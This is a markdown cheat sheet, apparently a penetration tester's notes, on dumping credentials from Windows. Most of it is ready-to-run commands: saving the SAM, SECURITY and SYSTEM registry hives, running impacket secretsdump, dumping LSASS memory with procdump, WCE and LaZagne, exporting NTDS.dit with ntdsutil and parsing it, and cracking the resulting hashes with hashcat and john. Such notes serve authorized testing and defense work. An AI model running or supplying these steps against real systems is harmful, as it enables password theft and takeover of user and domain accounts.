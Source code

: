 # Clear Text Credentials Dump on windows 

# Local Password dump

## Impacket

https://github.com/CoreSecurity/impacket

- get LSA secret keys from reg

```
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```

- dump with impacket

```
impacket-secretsdump -sam /root/sam.save -security /root/security.save -system /root/Desktop/system.save Local
```

## Metasploit module

- post/windows/gather/lsa_secrets

## LSAsecrte binary

https://github.com/linuxmuster/lsaSecrets/blob/master/bin/lsaSecretRead.exe

``` lsaSecretRead.exe DefaultPassword ```

## LSASS process with processdump

```
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

## WCE

- https://www.ampliasecurity.com/research/windows-credentials-editor/


```
wce.exe -w
```

## Credential manager

- https://github.com/AlessandroZ/LaZagne
```
lazagne all 
```

## Nishan framework

- https://github.com/samratashok/nishang

## Group Policy Preference 

- metasploit module

``` post/windows/gather/credentials/gpp ```

# Domain Password dump

- Export NTDS with ntdsutil

```
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

- install esdbexport
```
wget https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar.gz

sudo apt-get install autoconf automake autopoint libtool pkg-config

```
- Dump Tables
```
/usr/local/bin/esedbexport -m tables ntds.dit
```

- install ntdsextract

  - https://github.com/csababarta/ntdsxtract
  - need datatable, link_table, system hive

```
dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```
format options is john, ocl ,ophc

- crack with hashcat , john 

```
hashcat -m 1000 output/ntout --username /path/to/wordlist

john –rules=all –fork=2 NT.out

```

## Reference 
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/
